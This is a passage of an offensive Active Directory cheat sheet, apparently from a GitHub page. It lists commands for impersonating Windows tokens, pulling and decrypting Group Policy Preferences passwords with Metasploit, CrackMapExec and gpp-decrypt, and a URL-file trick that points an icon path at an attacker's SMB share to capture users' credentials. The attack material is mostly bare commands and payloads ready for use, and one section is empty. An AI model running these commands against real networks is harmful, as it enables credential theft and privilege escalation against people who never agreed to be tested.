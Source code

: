 ### Metasploit
```
load incognito
list_tokens -u
impersonate_token <token>
```

### Windows Binary
```
incognito.exe list_tokens -u
incognito.exe impersonate_token <token>
```

## Group Managed Service Accounts

## GPP / cPassword

### Metasploit
```
use auxiliar/smb_enum_gpp
Fill out all options
Run the module
gpp-decrypt <cpassword> 
```

### CrackMapExec
```
crackmapexec smb 192.168.56.0/24 -u 'usernamew' -p 'password' -M gpp_password
gpp-decrypt <cpassword>
```

### Manual
- Find policies folder on the share
- Find Groups.xml
- Groups.xml might have cpassword
```
gpp-decrypt <cpassword> 
```

## GPP Autologin
- Find Registry.xml files in shares
```
crackmapexec smb 192.168.56.0/24 -u 'usernamew' -p 'password' -M gpp_autologin
```

## URL File Attack (Can also use Farmer.exe and Crop.exe)
- Create a file with name "@test.url"
- Paste the following text into the file
```
`[InternetShortcut]`
`URL=blah`
`WorkingDirectory=blah`
`IconFile=\\<attacker-IP>\%USERNAME%.icon`
`IconIndex=1`
```
- Run `impacket-smbserver -smb2support test .` to host a smb share and Wait for someone to open the share
